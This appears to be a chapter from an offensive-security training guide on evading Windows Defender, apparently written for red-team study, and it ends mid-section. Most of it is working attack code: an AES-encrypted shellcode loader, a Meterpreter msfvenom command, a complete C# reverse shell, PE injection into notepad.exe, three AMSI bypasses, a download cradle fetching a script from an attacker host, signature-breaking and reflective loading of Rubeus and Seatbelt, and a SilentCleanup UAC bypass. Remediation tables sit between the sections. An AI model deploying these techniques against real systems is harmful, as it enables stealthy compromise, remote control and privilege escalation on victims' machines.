using System; using System.Linq; using System.Runtime.InteropServices; using System.Security.Cryptography; namespace NotMalware { internal class Program { [DllImport("kernel32")] private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect); [DllImport("kernel32")] private static extern bool VirtualProtect(IntPtr lpAddress, uint dwSize, UInt32 flNewProtect, out UInt32 lpflOldProtect); [DllImport("kernel32")] private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, IntPtr lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId); [DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds); static void Main(string[] args) { // AES-encrypted shellcode (Base64) string bufEnc = "<BASE64_AES_ENCRYPTED_SHELLCODE>"; // Decrypt shellcode Aes aes = Aes.Create(); byte[] key = new byte[16] { 0x1f, 0x76, 0x8b, 0xd5, 0x7c, 0xbf, 0x02, 0x1b, 0x25, 0x1d, 0xeb, 0x07, 0x91, 0xd8, 0xc1, 0x97 }; byte[] iv = new byte[16] { 0xee, 0x7d, 0x63, 0x93, 0x6a, 0xc1, 0xf2, 0x86, 0xd8, 0xe4, 0xc5, 0xca, 0x82, 0xdf, 0xa5, 0xe2 }; ICryptoTransform decryptor = aes.CreateDecryptor(key, iv); byte[] buf; using (var msDecrypt = new System.IO.MemoryStream(Convert.FromBase64String(bufEnc))) { using (var csDecrypt = new CryptoStream(msDecrypt, decryptor, CryptoStreamMode.Read)) { using (var msPlain = new System.IO.MemoryStream()) { csDecrypt.CopyTo(msPlain); buf = msPlain.ToArray(); } } } // Allocate RW space for shellcode IntPtr lpStartAddress = VirtualAlloc(IntPtr.Zero, (UInt32)buf.Length, 0x1000, 0x04); // Copy shellcode into allocated space Marshal.Copy(buf, 0, lpStartAddress, buf.Length); // Change protection to RX (execute) UInt32 lpflOldProtect; VirtualProtect(lpStartAddress, (UInt32)buf.Length, 0x20, out lpflOldProtect); // Execute in a new thread UInt32 lpThreadId = 0; IntPtr hThread = CreateThread(0, 0, lpStartAddress, IntPtr.Zero, 0, ref lpThreadId); WaitForSingleObject(hThread, 0xffffffff); } } }
Why AES works: Unlike XOR, AES encryption produces ciphertext that is computationally indistinguishable from random data without the key. Defender cannot decrypt the payload during a static scan, so no signature match occurs. ThreatCheck confirms: "No threat found!"
Important caveat: AES encryption only defeats static analysis. Once the shellcode is decrypted in memory and begins executing, dynamic analysis can still catch it (see next section).
14.2.5 Compilation Notes
- Use Console App (.NET Framework) template in Visual Studio
- Compile in Release mode targeting x64 (for 64-bit shellcode)
- Test with real-time protection disabled first, using ThreatCheck
- Then re-enable real-time protection and copy the binary outside any excluded folder to verify evasion
Methodology
-
msfvenom -p windows/x64/meterpreter/reverse_http LHOST=[attacker-ip] LPORT=443 -f csharp -
-
// Use Aes.Create(), CreateDecryptor(key, iv), CryptoStream to decrypt at runtime -
ThreatCheck.exe -f .\NotMalware.exe -
Copy-Item .\NotMalware.exe $env:USERPROFILE\Desktop\ .\NotMalware.exe
14.2.6 Remediation
| Defense | What It Addresses |
|---|---|
| Keep AV signatures updated | New signatures catch recently discovered payloads and obfuscation patterns |
| Enable cloud-delivered protection | ML models can detect unknown/encrypted payloads that static signatures miss |
| Enable automatic sample submission | Feeds new samples to Microsoft for analysis and signature generation |
| Block at perimeter | Email gateways and web proxies with sandboxing can detonate suspicious binaries |
| Application whitelisting (AppLocker/WDAC) | Prevents execution of unsigned/unknown binaries regardless of AV verdict |
| Monitor for VirtualAlloc + CreateThread patterns | EDR rules can flag the shellcode injection API call sequence |
| Code signing enforcement | Only allow execution of signed binaries; custom malware is unsigned |
14.3 Dynamic Analysis Evasion
Dynamic analysis detects malware in process memory at runtime. Even if a binary passes static analysis, certain runtime events (process creation, suspicious API calls, child process spawning) trigger memory scans. If the decrypted shellcode in memory matches a known signature, the process is killed.
14.3.1 How Dynamic Analysis Works
When Defender detects a suspicious operation, such as a process spawning another process, allocating RWX memory, or calling certain API sequences, it triggers a memory scan of the process. At this point, the shellcode is already decrypted in memory, so byte-pattern matching can identify known payloads like Meterpreter.
# After NotMalware.exe (with AES-encrypted Meterpreter) was caught:
PS C:\> Get-MpThreatDetection
# Shows: detected based on behavior when process tried to start another process
# The Meterpreter shellcode was residing unencrypted in memory at detection timeThe fundamental problem: AES encryption only protects on disk. Once the shellcode is decrypted in memory to execute, it is vulnerable to behavioral/memory scanning. Meterpreter is especially well-known to Microsoft; MSRC has developed extensive signatures for its unencrypted shellcode patterns.
14.3.2 Option 1: Modifying the Payload Source
Modify the Meterpreter payload source code itself so that even when decrypted in memory, it does not match known signatures. This requires:
- Modifying the shellcode to avoid triggering a memory scan, or
- Modifying the shellcode so that if scanned, it does not match known byte patterns
Practical limitation: This requires deep understanding of x64 assembly and the Meterpreter stager internals. It is effective but complex and out of scope for most engagements.
14.3.3 Option 2: Changing the Payload
Replace well-known shellcode (Meterpreter) with a less-known alternative. Since the goal is often just a reverse shell, use a minimal, lesser-known shellcode generator that Defender does not yet have signatures for.
Example: micr0_shell: generates position-independent, null-free reverse shell shellcode for Windows x64.
# Generate C# formatted shellcode with micr0_shell
python.exe .\micr0_shell.py -i [attacker-ip] -p 8080 -l csharp
# Output: byte[] buf = new byte[476] { ... };Workflow:
Defender likely does not have a signature for micr0_shell's shellcode. Even if a memory scan is triggered, no match is found. If micr0_shell becomes widely used, Microsoft can develop signatures for it; less common tooling usually has a longer detection window.
14.3.4 Option 3: Writing Custom Tools
The most reliable evasion method: write your own tools from scratch. Custom code will not match any known signature in static or behavioral databases. The trade-off is development time and effort.
Example: Custom C# TCP Reverse Shell (RShell)
using System;
using System.IO;
using System.Net.Sockets;
using System.Diagnostics;
namespace RShell
{
internal class Program
{
private static StreamWriter streamWriter;
static void Main(string[] args)
{
if (args.Length != 2)
{
Console.WriteLine("Usage: RShell.exe <IP> <Port>");
return;
}
try
{
// Connect to attacker
TcpClient client = new TcpClient();
client.Connect(args[0], int.Parse(args[1]));
// Set up I/O streams
Stream stream = client.GetStream();
StreamReader streamReader = new StreamReader(stream);
streamWriter = new StreamWriter(stream);
// Spawn hidden PowerShell with redirected I/O
Process p = new Process();
p.StartInfo.FileName = @"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe";
p.StartInfo.Arguments = "-ep bypass -nologo";
p.StartInfo.WindowStyle = ProcessWindowStyle.Hidden;
p.StartInfo.UseShellExecute = false;
p.StartInfo.RedirectStandardOutput = true;
p.StartInfo.RedirectStandardError = true;
p.StartInfo.RedirectStandardInput = true;
p.OutputDataReceived += HandleDataReceived;
p.ErrorDataReceived += HandleDataReceived;
// Start process and read output
p.Start();
p.BeginOutputReadLine();
p.BeginErrorReadLine();
// Route user input to PowerShell STDIN
string userInput = "";
while (!userInput.Equals("exit"))
{
userInput = streamReader.ReadLine();
p.StandardInput.WriteLine(userInput);
}
p.WaitForExit();
client.Close();
}
catch (Exception) { }
}
private static void HandleDataReceived(object sender, DataReceivedEventArgs e)
{
if (e.Data != null)
{
streamWriter.WriteLine(e.Data);
streamWriter.Flush();
}
}
}
}Why custom tools evade detection:
Key classes used:
| Class | Purpose |
|---|---|
System.Net.Sockets.TcpClient | Handles the TCP connection to the attacker |
System.Diagnostics.Process | Spawns the cmd.exe or powershell.exe process |
System.IO.StreamReader | Reads from the TCP stream (attacker commands) |
System.IO.StreamWriter | Writes to the TCP stream (shell output) |
Practical consideration: Custom tooling is the gold standard, but it is time-consuming. In practice, operators must balance custom development against time/budget constraints, which is why open-source tool evasion (covered later) is also important.
Methodology
-
# If only a reverse shell is needed, use a less-known generator python micr0_shell.py -i LHOST -p LPORT -l csharp -
-
// Custom TcpClient reverse shell -- no signatures to match -
# Copy binary to non-excluded path, execute, interact with shell # Verify process is not killed after establishing connection
14.3.5 Remediation
| Defense | Rationale |
|---|---|
| EDR with behavioral analytics | Detects suspicious API call sequences (VirtualAlloc + WriteProcessMemory + CreateRemoteThread) regardless of payload content |
| Network monitoring / IDS | Detects reverse shell connections, beaconing patterns, unusual outbound traffic |
| Egress filtering | Block unnecessary outbound connections; allow only required ports/protocols |
| Process creation logging (Sysmon Event ID 1) | Audit parent-child process relationships (e.g., notepad.exe spawning powershell.exe is suspicious) |
| Memory integrity monitoring | Detect RWX memory allocations and shellcode injection patterns |
| Credential Guard / PPL | Protect LSASS and critical processes from injection |
14.4 Process Injection
Process injection is an evasion technique where malicious code executes within the address space of another (legitimate) process. This makes detection harder because the malicious activity appears to come from a trusted process. There are several variants:
| Technique | Description | MITRE ID |
|---|---|---|
| DLL Injection | Write path of a malicious DLL into a target process's memory, then call LoadLibrary | T1055.001 |
| PE Injection | Copy shellcode directly into a target process's memory and execute with CreateRemoteThread | T1055.002 |
| Process Hollowing | Spawn a process in a suspended state, replace its entrypoint in memory, then resume | T1055.012 |
| Thread Execution Hijacking | Suspend a thread in a target process, replace its code, then resume the thread | T1055.003 |
14.4.1 Portable Executable (PE) Injection
PE injection copies shellcode into the address space of a running process and executes it via CreateRemoteThread. The key WinAPI functions and their roles:
| WinAPI Function | Purpose | Key Parameters |
|---|---|---|
CreateProcess | Spawn the target process (e.g., notepad.exe) | lpCommandLine, dwCreateFlags (DETACHED_PROCESS | CREATE_NO_WINDOW) |
VirtualAllocEx | Allocate memory in the target process for the shellcode | hProcess, dwSize, flProtect (PAGE_READWRITE initially) |
WriteProcessMemory | Write the shellcode into the allocated space | hProcess, lpBaseAddress (from VirtualAllocEx), lpBuffer (shellcode bytes) |
VirtualProtectEx | Change memory protection from RW to RX | hProcess, lpAddress, flNewProtect (PAGE_EXECUTE_READ) |
CreateRemoteThread | Execute the shellcode in the target process | hProcess, lpStartAddress (from VirtualAllocEx) |
Why use RW then change to RX (instead of RWX directly): Some AV solutions flag PAGE_EXECUTE_READWRITE (0x40) allocations as suspicious. Allocating as PAGE_READWRITE (0x04) first, writing the shellcode, then switching to PAGE_EXECUTE_READ (0x20) avoids this detection heuristic.
14.4.2 Case Study: AlsoNotMalware (PE Injection)
Full implementation of PE injection into notepad.exe using the micr0_shell payload:
using System;
using System.Runtime.InteropServices;
namespace AlsoNotMalware
{
internal class Program
{
// Struct definitions for CreateProcess
[StructLayout(LayoutKind.Sequential)]
public struct PROCESS_INFORMATION
{
public IntPtr hProcess;
public IntPtr hThread;
public int dwProcessId;
public int dwThreadId;
}
[StructLayout(LayoutKind.Sequential)]
internal struct STARTUPINFO
{
uint cb;
IntPtr lpReserved, lpDesktop, lpTitle;
uint dwX, dwY, dwXSize, dwYSize;
uint dwXCountChars, dwYCountChars, dwFillAttributes, dwFlags;
ushort wShowWindow, cbReserved;
IntPtr lpReserved2, hStdInput, hStdOutput, hStdErr;
}
public const uint PageReadWrite = 0x04;
public const uint PageReadExecute = 0x20;
public const uint DetachedProcess = 0x00000008;
public const uint CreateNoWindow = 0x08000000;
// P/Invoke declarations
[DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Auto)]
private static extern bool CreateProcess(IntPtr lpApplicationName, string lpCommandLine,
IntPtr lpProcAttribs, IntPtr lpThreadAttribs, bool bInheritHandles, uint dwCreateFlags,
IntPtr lpEnvironment, IntPtr lpCurrentDir, [In] ref STARTUPINFO lpStartinfo,
out PROCESS_INFORMATION lpProcInformation);
[DllImport("kernel32.dll", SetLastError = true)]
static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize,
uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll", SetLastError = true)]
private static extern bool VirtualProtectEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize,
UInt32 flNewProtect, out UInt32 lpflOldProtect);
[DllImport("kernel32.dll")]
static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer,
Int32 nSize, out IntPtr lpNumberOfBytesWritten);
[DllImport("kernel32.dll")]
static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes,
uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags,
IntPtr lpThreadId);
static void Main(string[] args)
{
// Shellcode (micr0_shell or other payload)
byte[] buf = { /* shellcode bytes */ };
// 1. Create the target process (notepad.exe, hidden)
STARTUPINFO startInfo = new STARTUPINFO();
PROCESS_INFORMATION procInfo = new PROCESS_INFORMATION();
uint flags = DetachedProcess | CreateNoWindow;
CreateProcess(IntPtr.Zero, @"C:\Windows\System32\notepad.exe",
IntPtr.Zero, IntPtr.Zero, false, flags, IntPtr.Zero, IntPtr.Zero,
ref startInfo, out procInfo);
// 2. Allocate RW space in target process
IntPtr lpBaseAddress = VirtualAllocEx(procInfo.hProcess, IntPtr.Zero,
(uint)buf.Length, 0x3000, PageReadWrite);
// 3. Write shellcode to target process
IntPtr outSize;
WriteProcessMemory(procInfo.hProcess, lpBaseAddress, buf, buf.Length, out outSize);
// 4. Change memory protection to RX
uint lpflOldProtect;
VirtualProtectEx(procInfo.hProcess, lpBaseAddress, (uint)buf.Length,
PageReadExecute, out lpflOldProtect);
// 5. Execute shellcode via remote thread
IntPtr hThread = CreateRemoteThread(procInfo.hProcess, IntPtr.Zero, 0,
lpBaseAddress, IntPtr.Zero, 0, IntPtr.Zero);
}
}
}Execution flow:
Why it works for evasion: The shellcode runs inside notepad.exe's process context. Security tools looking at process trees see notepad.exe making network connections, not a suspicious custom binary. Combined with a lesser-known shellcode payload, this avoids both static and dynamic detections.
Methodology
-
CreateProcess(IntPtr.Zero, @"C:\Windows\System32\notepad.exe", ...) -
IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, (uint)buf.Length, 0x3000, 0x04); WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize); VirtualProtectEx(hProcess, addr, (uint)buf.Length, 0x20, out oldProtect); -
CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero); -
14.4.3 Remediation
| Defense | Rationale |
|---|---|
| Enable Credential Guard | Isolates LSASS in a Hyper-V protected container, preventing injection |
| EDR monitoring for injection APIs | Alert on VirtualAllocEx + WriteProcessMemory + CreateRemoteThread sequences targeting remote processes |
| Sysmon Event ID 8 (CreateRemoteThread) | Logs all remote thread creation events with source/target process context |
| Sysmon Event ID 10 (ProcessAccess) | Logs cross-process access with PROCESS_VM_WRITE or PROCESS_CREATE_THREAD permissions |
| Protected Process Light (PPL) | Prevents injection into critical system processes |
| Block unsigned binaries | WDAC/AppLocker prevents execution of unsigned injection tools |
| Memory integrity (HVCI) | Kernel-level enforcement of code integrity in memory |
14.5 Antimalware Scan Interface (AMSI)
AMSI is a standardized Windows interface that allows applications to submit content to the installed antimalware solution for scanning before execution. Think of it as a runtime content scanner. Applications like PowerShell pass commands through AMSI, and Defender checks them against signatures before allowing execution.
14.5.1 How AMSI Works
The key AMSI functions that applications call:
| Function | Purpose |
|---|---|
AmsiInitialize | Initializes the AMSI API for the calling application |
AmsiOpenSession | Opens a session within which content can be scanned |
AmsiScanBuffer | Scans a buffer of bytes for malicious content |
AmsiScanString | Scans a string for malicious content |
AMSI in PowerShell: When you type a command in PowerShell, it is sent to AMSI before execution. If Defender flags the content, the command is blocked. This is why tools like Invoke-Mimikatz.ps1 are blocked even when loaded directly in memory. AMSI acts as a real-time gatekeeper for scripts and commands.
String detection example: Even the string "amsiUtils" alone triggers a Defender detection in PowerShell, because Defender has signatures for known AMSI bypass attempts. Simple string splitting ("amsi" + "Utils") or Base64 encoding can bypass this string detection.
14.5.2 Bypass 1: Setting amsiInitFailed
Original bypass (Matt Graeber, 2016): The first publicly known AMSI bypass. It exploits the internal logic of the ScanContent method in System.Management.Automation.AmsiUtils.
Inside the ScanContent method, there is a check:
if (amsiInitFailed)
return AMSI_RESULT_NOT_DETECTED;If amsiInitFailed is true, the method returns AMSI_RESULT_NOT_DETECTED immediately and no scan occurs. The bypass simply sets this private static field to true using .NET reflection.
Original command (now detected):
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)Obfuscated version (evades string detection):
[Ref].Assembly.GetType('System.Management.Automation.Amsi'+'Utils').GetField('amsiInit'+'Failed','NonPublic,Static').SetValue($null,!$false)Obfuscation techniques applied:
Verification: After running the bypass, the string "amsiUtils" no longer triggers a detection, proving AMSI is disabled for the session.
This bypass only disables AMSI for the PowerShell session, not at the DLL level. If [System.Reflection.Assembly]::Load() is used to load .NET assemblies, AMSI in the .NET runtime can still scan them. For that, you need a DLL-level patch (Bypass 2).
14.5.3 Bypass 2: Patching amsiScanBuffer
Instead of manipulating a managed variable, this bypass patches the AmsiScanBuffer function in amsi.dll directly. The function returns an HRESULT: S_OK on success, or an error code. If it returns an error, the ScanContent method treats the result as AMSI_RESULT_NOT_DETECTED.
By overwriting the first bytes of AmsiScanBuffer with shellcode that returns E_FAIL (0x80004005), every scan call fails, and AMSI is effectively disabled.
Assembly patch:
# x64 assembly: mov eax, 0x80004005; ret
# Opcodes: B8 05 40 00 80 C3PowerShell implementation:
Add-Type -TypeDefinition @"
using System;
using System.Runtime.InteropServices;
public static class Kernel32 {
[DllImport("kernel32")]
public static extern IntPtr LoadLibrary(string lpLibFileName);
[DllImport("kernel32")]
public static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);
[DllImport("kernel32")]
public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@;
$patch = [Byte[](0xB8, 0x05, 0x40, 0x00, 0x80, 0xC3);
$hModule = [Kernel32]::LoadLibrary("amsi.dll");
$lpAddress = [Kernel32]::GetProcAddress($hModule, "Amsi"+"ScanBuffer");
$lpflOldProtect = 0;
[Kernel32]::VirtualProtect($lpAddress, [UIntPtr]::new($patch.Length), 0x40, [ref]$lpflOldProtect) | Out-Null;
$marshal = [System.Runtime.InteropServices.Marshal];
$marshal::Copy($patch, 0, $lpAddress, $patch.Length);
[Kernel32]::VirtualProtect($lpAddress, [UIntPtr]::new($patch.Length), $lpflOldProtect, [ref]$lpflOldProtect) | Out-Null;Step-by-step:
Why this is stronger than Bypass 1: This patches the actual DLL in the process, so it affects all callers of AmsiScanBuffer, including .NET assembly loading via [System.Reflection.Assembly]::Load(). Bypass 1 only affects the PowerShell session's managed variable.
14.5.4 Bypass 3: Forcing an Error (Corrupting amsiContext)
Instead of patching the DLL, corrupt the data that AMSI functions depend on. The AmsiOpenSession function validates that the first four bytes of amsiContext equal the ASCII string "AMSI". If not, it returns the HRESULT error 0x80070057 (E_INVALIDARG), causing amsiInitFailed to be set to true.
How AmsiOpenSession validates (from IDA disassembly):
# Pseudocode: if first 4 bytes of rcx (amsiContext) != "AMSI", return 0x80070057
# 0x80070057 = E_INVALIDARG ("One or more arguments are invalid")PowerShell implementation:
$utils = [Ref].Assembly.GetType('System.Management.Automation.Amsi'+'Utils');
$context = $utils.GetField('amsi'+'Context','NonPublic,Static');
$session = $utils.GetField('amsi'+'Session','NonPublic,Static');
$marshal = [System.Runtime.InteropServices.Marshal];
# Allocate a 4-byte buffer (will NOT contain "AMSI" header)
$newContext = $marshal::AllocHGlobal(4);
$context.SetValue($null, [IntPtr]$newContext);
# Set session to null to ensure the error branch is taken
$session.SetValue($null, $null);By replacing amsiContext with a freshly allocated 4-byte buffer (which does not contain the "AMSI" magic bytes), AmsiOpenSession fails its validation check and returns an error. This causes the PowerShell runtime to set amsiInitFailed = true, disabling AMSI for the session.
14.5.5 AMSI Bypass Comparison
| Bypass | Mechanism | Scope | Patches DLL? | Best Use Case |
|---|---|---|---|---|
| amsiInitFailed | Sets managed variable to true | PowerShell session only | No | Quick PS-only bypass; does NOT work for .NET assembly loading |
| amsiScanBuffer patch | Overwrites function to return E_FAIL | All AMSI callers in process | Yes | Reflective assembly loading, comprehensive bypass |
| amsiContext corruption | Corrupts context to force AmsiOpenSession failure | PowerShell session only | No | Alternative when other bypasses are blocked |
Critical note for reflective loading: When using [System.Reflection.Assembly]::Load() to load .NET assemblies in memory, you must use Bypass 2 (amsiScanBuffer patch). Bypasses 1 and 3 only disable AMSI at the PowerShell session level; the .NET runtime's AMSI integration will still scan the loaded assembly bytes.
Methodology
-
"amsiUtils" # If blocked, AMSI is active -
# Session-only (Bypass 1 -- quick, for PS commands only): [Ref].Assembly.GetType('System.Management.Automation.Amsi'+'Utils').GetField('amsiInit'+'Failed','NonPublic,Static').SetValue($null,!$false) # DLL-level (Bypass 2 -- for reflective assembly loading): # Use the amsiScanBuffer patching script above -
"amsiUtils" # Should no longer trigger a detection -
# Download cradle for PS scripts: IEX (New-Object Net.WebClient).DownloadString('http://ATTACKER/script.ps1')
14.5.6 Remediation
| Defense | What It Addresses |
|---|---|
| Script Block Logging (GPO) | Logs full PowerShell script content even after AMSI is bypassed; enables forensic review |
| Module Logging | Logs module load events and pipeline execution |
| Constrained Language Mode | Prevents Add-Type, .NET reflection, and P/Invoke; blocks Bypass 2 entirely |
| Enable Tamper Protection | Prevents modification of Defender/AMSI settings and DLLs |
| Monitor for AMSI bypass indicators | Alert on strings like "amsiInitFailed", "AmsiScanBuffer", "amsiContext" in PowerShell transcripts |
| ETW (Event Tracing for Windows) | AMSI events are logged via ETW even if the bypass succeeds; correlate with other telemetry |
| Disable PowerShell 2.0 | PS 2.0 predates AMSI entirely; removing it eliminates a trivial bypass vector |
14.6 Open-Source Software Evasion
In practice, developing every tool from scratch is infeasible. Operators must use open-source tools like Rubeus, Seatbelt, SharpHound, or Mimikatz. Since these are well-known to AV vendors, their signatures are thoroughly cataloged. Two approaches exist to evading detection when using OSS.
14.6.1 Option 1: Manually Breaking Signatures
Process: An iterative cycle of: compile, scan with ThreatCheck, identify flagged bytes, modify source, repeat until clean.
Detailed walkthrough with Rubeus:
Iteration 1; String signatures:
# Scan the compiled binary
ThreatCheck.exe -f .\Rubeus.exe
# Result: flagged bytes contain the string "ticket"Fix: Use Visual Studio's "Replace in Files" (Ctrl+Shift+H) to replace all instances of ticket with tekcit throughout the solution. Rebuild and rescan.
Iteration 2; Class name signatures:
# Rescan after string replacement
ThreatCheck.exe -f .\Rubeus.exe
# Result: flagged bytes contain "DiffieHellmanKey"Fix: Use Visual Studio's Rename refactoring (right-click class name, select Rename) to change DiffieHellmanKey to DHKey. This safely renames all references. Rebuild and rescan.
Iteration 3; Assembly metadata and TypeLib GUID:
# Rescan shows: flagged bytes contain "Rubeus", copyright info, and a GUID
# The TypeLib GUID is especially dangerous -- YARA rules match on it aloneExample YARA rule that detects Rubeus using only the GUID:
rule HackTool_MSIL_Rubeus_1
{
meta:
description = "The TypeLibGUID maps directly to the ProjectGuid in the .csproj file."
author = "FireEye"
strings:
$typelibguid = "658C8B7F-3664-4A95-9572-A3E5871DFC06" ascii nocase wide
condition:
uint16(0) == 0x5A4D and $typelibguid
}Fix: Generate a new random GUID and update the assembly properties:
# Generate a new GUID
[GUID]::NewGUID()
# Output: 0fb06558-5168-4398-a791-fa485f4f7325In Visual Studio: Project > Properties > Application > Assembly Information, replace the GUID.
Iteration N: Continue the cycle until ThreatCheck reports "No threat found!" This process varies per tool but always follows the same pattern: identify, modify, recompile, rescan.
Common signature triggers to check:
| Trigger | Fix |
|---|---|
| Variable/method names (e.g., "ticket", "kerberos") | Global find-and-replace with benign names |
| Class names (e.g., "DiffieHellmanKey") | Rename refactoring in IDE |
| TypeLib GUID / ProjectGuid | Generate and set a new random GUID |
| Assembly metadata (product name, description, copyright) | Modify in Assembly Information dialog |
| Hardcoded strings (help text, error messages) | Modify or encrypt strings |
| Namespace names | Rename the namespace throughout the project |
14.6.2 Option 2: Reflective Assembly Loading in PowerShell
Instead of modifying and recompiling every tool, load .NET assemblies directly into memory from PowerShell, bypassing on-disk scanning entirely. Combined with an AMSI bypass (specifically the AmsiScanBuffer patch), this is a powerful technique.
Why .NET reflection works: PowerShell and C# both run on the .NET Framework. Any C# assembly can be loaded into a PowerShell session using [System.Reflection.Assembly]::Load() and its public methods can be called directly.
Basic pattern:
# Load assembly bytes into memory
$bin = @(<byte array of the compiled assembly>);
[System.Reflection.Assembly]::Load($bin);
# Call the Main method
[Namespace.ClassName]::Main($arguments);Full workflow for Seatbelt:
Step 1: Prepare the assembly. Make the Main method public (change from private), compile in Release mode.
Step 2: Compress and encode. Use CyberChef: raw bytes -> GZIP compress -> Base64 encode. This reduces the payload size and avoids simple byte-pattern matching.
Step 3: Write the PowerShell wrapper (Invoke-Seatbelt):
function Invoke-Seatbelt {
[CmdletBinding()]
Param (
[String]
$args = " "
)
# Seatbelt.exe -> Gzip -> Base64
$gzipB64 = "<BASE64_GZIP_COMPRESSED_ASSEMBLY>";
# Decode Base64
$gzipBytes = [Convert]::FromBase64String($gzipB64);
# Decompress GZIP
$gzipMemoryStream = New-Object IO.MemoryStream(, $gzipBytes);
$gzipStream = New-Object System.IO.Compression.GzipStream(
$gzipMemoryStream, [IO.Compression.CompressionMode]::Decompress);
$seatbeltMemoryStream = New-Object System.IO.MemoryStream;
$gzipStream.CopyTo($seatbeltMemoryStream);
# Load assembly reflectively
$seatbeltArray = $seatbeltMemoryStream.ToArray();
$seatbelt = [System.Reflection.Assembly]::Load($seatbeltArray);
# Redirect STDOUT to capture output
$OldConsoleOut = [Console]::Out;
$StringWriter = New-Object IO.StringWriter;
[Console]::SetOut($StringWriter);
# Call Seatbelt's Main method
[Seatbelt.Program]::Main($args.Split(" "));
# Restore STDOUT and return results
[Console]::SetOut($OldConsoleOut);
$Results = $StringWriter.ToString();
$Results;
}Critical AMSI consideration: The script will be blocked by AMSI. You must use the AmsiScanBuffer patch (Bypass 2); not the amsiInitFailed bypass (Bypass 1). Here is why:
- Bypass 1 only disables AMSI at the PowerShell session level
- When
[System.Reflection.Assembly]::Load()is called, the .NET runtime's own AMSI integration scans the assembly bytes - Bypass 2 patches the actual
amsi.dllfunction, disabling AMSI for all callers in the process
Methodology
-
-
ThreatCheck.exe -f .\Rubeus.exe # Identify flagged bytes -> modify source -> rebuild -> rescan -
[GUID]::NewGUID() # Update in Project > Properties > Assembly Information -
# Run AmsiScanBuffer patch (Bypass 2) before loading assemblies # Then use IEX to download and execute the Invoke-Tool wrapper -
# Run the modified tool with test arguments to confirm functionality # Renamed variables/classes can break functionality if not done carefully
14.6.3 Remediation
| Defense | Rationale |
|---|---|
| Keep AV signatures updated | New variants of modified OSS tools are regularly submitted and signatured |
| Enable AMSI with Tamper Protection | Prevents in-memory bypass of AMSI scanning |
| Script Block Logging | Captures the full deobfuscated script content, including reflectively loaded assemblies |
| Constrained Language Mode (via AppLocker/WDAC) | Blocks Add-Type, .NET reflection, and P/Invoke in PowerShell |
| Monitor for Assembly::Load calls | ETW and PowerShell logging capture assembly loading events |
| Application whitelisting | Prevent execution of modified binaries that fail hash/publisher rules |
| Detect known tool artifacts | Even modified tools often retain behavioral patterns (Kerberos ticket manipulation, LSA access, etc.) |
14.7 User Account Control (UAC) Bypass
UAC manages privilege elevation in Windows. Every securable object has an integrity level, and UAC controls transitions between them. Understanding integrity levels is critical to understanding UAC bypasses.
14.7.1 Integrity Levels and Access Tokens
| Integrity Level | Description | Typical Usage |
|---|---|---|
| Low | Highly restricted, sandboxed | Internet-facing processes (browsers, sandboxed apps) |
| Medium | Default for standard user sessions | Normal user processes, even for local administrators by default |
| High | Elevated/administrative access | Processes explicitly run as administrator (elevated token) |
| System | Highest integrity, full OS access | Kernel-level services, SYSTEM processes |
Key concept: Lower-integrity objects cannot access higher-integrity objects (no write-up), but the reverse is allowed. When an administrator logs in, they receive two access tokens:
- Standard user token (Medium integrity): used by default for all processes
- Administrator token (High integrity): only used when UAC explicitly grants elevation
The attacker's problem: Even with control of an admin account, if you have only a reverse shell (Medium integrity), you cannot perform privileged operations like net user /add. UAC blocks the action because the process is running with the standard token.
UAC bypass goal: Elevate from Medium to High integrity without triggering a UAC prompt, when you already control an administrator account but lack GUI access.
14.7.2 Bypass 1: DiskCleanup Scheduled Task Hijack
Discovery: James Forshaw (Google Project Zero), 2017.
The SilentCleanup scheduled task is configured on Windows by default with two critical properties:
- It can be started from a Medium integrity process
- It has "Run with highest privileges" enabled, auto-elevating to High integrity
The vulnerability: SilentCleanup executes %windir%\system32\cleanmgr.exe. The path uses the environment variable %windir%. Since HKCU environment variables are user-controllable, an attacker can redefine %windir% to execute arbitrary commands.
Exploitation:
# Step 1: Set %windir% to execute our payload
# The space at the end is critical -- it separates our command from the appended path
Set-ItemProperty -Path "HKCU:\Environment" -Name "windir" -Value "cmd.exe /K C:\Windows\Tasks\RShell.exe [attacker-ip] 8080 & REM " -Force
# Step 2: Trigger the scheduled task (this auto-elevates to High integrity)
Start-ScheduledTask -TaskPath "\Microsoft\Windows\DiskCleanup" -TaskName "SilentCleanup"
# Step 3: Clean up the environment variable after getting the shell
Clear-ItemProperty -Path "HKCU:\Environment" -Name "windir" -ForceHow the path resolves: After setting %windir%, the executed command becomes:
cmd.exe /K C:\Windows\Tasks\RShell.exe [attacker-ip] 8080 & REM \system32\cleanmgr.exe /autocleanstoragesense /d %systemdrive%The & REM causes everything after our payload to be treated as a comment. The result: RShell.exe is launched at High integrity.
14.7.3 Bypass 2: FodHelper Execution Hijack
Discovery: 2017, via academic research.
The program C:\Windows\System32\fodhelper.exe has the autoElevate attribute set in its manifest, meaning it automatically runs at High integrity when launched by an admin user at Medium integrity.
# Verify autoElevate attribute
.\sigcheck.exe -m C:\Windows\System32\fodhelper.exe | findstr autoElevate
# Output: <autoElevate>true</autoElevate>The vulnerability: When FodHelper runs, it reads the registry key HKCU\Software\Classes\ms-settings\Shell\Open\Command to determine how to open ms-settings protocol URIs. Since HKCU is user-writable, an attacker can set this value to an arbitrary command.
